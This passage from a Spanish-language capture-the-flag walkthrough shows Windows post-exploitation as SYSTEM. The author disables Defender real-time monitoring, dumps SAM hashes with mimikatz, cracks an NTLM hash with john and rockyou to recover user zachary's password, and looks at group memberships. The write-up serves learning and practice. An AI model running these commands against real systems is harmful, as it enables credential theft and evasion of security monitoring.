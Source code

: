 Como estoy como nt authoriy/system, lo puedo deshabilitar sin problema

```null
PS C:\Windows\Temp> Set-MpPreference -DisableRealtimeMonitoring $true
```

Y dumpeo la SAM

```null
PS C:\Windows\Temp> .\mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
```

Me quedo únicamente con los hashes

```null
cat data | grep "NTLM:" | awk NF'{print $NF}'
d5312b245d641b3fae0d07493a022622
52a344a6229f7bfa074d3052023f0b41
998a9de69e883618e987080249d20253
eef285f4c800bcd1ae1e84c371eeb282
60b05a66232e2eb067b973c889b615dd
35a9de42e66dcdd5d512a796d03aef50
03e2ec7aa7e82e479be07ecd34f1603b
```

Y encuentra una contraseña

```null
john -w:/usr/share/wordlists/rockyou.txt hashes --format=NT
Using default input encoding: UTF-8
Loaded 7 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0987654321       (?)     
1g 0:00:00:00 DONE (2023-01-30 11:29) 1.694g/s 24311Kp/s 24311Kc/s 145869KC/s  _ 09..*7¡Vamos!
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

Corresponde a zacharay

```null
RID  : 000003ef (1007)
User : zachary
  Hash NTLM: eef285f4c800bcd1ae1e84c371eeb282 
```

Podría intentar añadirlo al grupo Remote Management Users para poder conectarme con evil-winrm, pero esta acción solo se puede realizar desde el DC

```null
PS C:\Windows\Temp> net group add
This command can be used only on a Windows Domain Controller.

More help is available by typing NET HELPMSG 3515.
```

Está en un grupo llamado Event Log Readers
